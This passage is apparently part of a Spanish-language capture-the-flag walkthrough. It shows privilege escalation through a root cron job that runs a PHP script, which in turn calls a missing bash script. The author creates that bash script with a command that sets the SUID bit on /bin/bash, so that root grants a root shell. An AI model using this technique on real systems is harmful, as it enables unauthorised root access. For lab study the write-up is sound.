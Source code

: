 ```python
```

--------------
#### Abusing Cron Job [Privilege Escalation]
Una vez dentro de la maquina, podemos listar por tareas **Cron** desde el archivo de configuración **/etc/crontab** y nos percatamos de que existe una tarea existente:
```php
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *	root	/var/www/cronjobs/clearlogs
```

Basicamente esta ejecutando un script en **PHP**, es el siguiente:
```php
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

Como vemos, en el script se esta utilizando la funcion **exec(..)** para ejecutar un script en **bash** el cual, de primeras, no existe. Podemos crear el archivo y asignar un comando malicioso para que le otorge **SUID** a la bash:
```
#!/bin/bash
chmod u+s /bin/bash
```

Y solo tendriamos que esperar que se ejecute la tarea para que la **bash** cuente con este privilegio:
```
Bash SUID
```




